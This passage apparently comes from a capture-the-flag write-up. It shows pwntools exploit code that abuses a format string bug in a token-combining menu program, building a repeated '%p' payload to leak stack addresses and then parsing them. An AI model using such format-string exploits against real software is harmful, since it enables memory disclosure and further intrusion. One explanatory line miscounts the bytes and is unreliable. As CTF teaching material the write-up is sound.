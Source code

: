 
## Information Leaking

### Step 1: Add Format String Token

We add a custom token containing format specifiers:

```python
p.sendlineafter(b'>', b'1')           # Choose "Add a custom token"
p.sendafter(b'token?>', b'%p' * 6 + b'\x00')  # Token 106: "%p%p%p%p%p%p\x00"
n_tokens += 1  # Now we have 107 tokens
```

**Why 6 `%p`'s?**
- Each `%p` leaks one 8-byte value
- Token size is 8 bytes, so `%p` × 6 = 6 bytes + null terminator
- When selected multiple times, we leak many stack values

### Step 2: Select Token Multiple Times

We need to select token 106 repeatedly to leak deep into the stack:

```python
combinator = 0  # Reset tracking
payload = b""

for i in range(25):  # Select token 106 twenty-five times
    byte = (106 - combinator) % n_tokens  # Calculate byte to select token 106
    payload += bytes([byte])
    combinator += 1

p.sendlineafter(b'>', b'2')  # Choose "Run a prompt"
p.sendlineafter(b'>', payload)
```

**What happens:**
- Token 106 is copied into `out_buf` 25 times
- `out_buf` becomes: `%p%p%p%p%p%p%p%p%p%p...` (repeated)
- `printf(out_buf)` leaks `25 × 6 = 150` stack values!

### Step 3: Parse Leaked Addresses

**The output looks like:**
```
<menu text>
Do you want to
1) Add a custom token
2) Run a prompt
>0x1234...0x5678...(nil)0xabcd...0xef01...<our useful leaks>...
```

**Parsing strategy:**
```python
io.recvline()  # Skip first line
leak_line = io.recvline().strip()

# Remove "(nil)" entries (null pointers)
leak_line = leak_line.replace(b"(nil)", b"")

# Decode to string
leak_line = leak_line.decode()

# Split by '>' to get past the menu prompt
after_prompt = leak_line.split('>')[1]

# Split by '0x' to separate addresses
addresses = after_prompt.split('0x')
```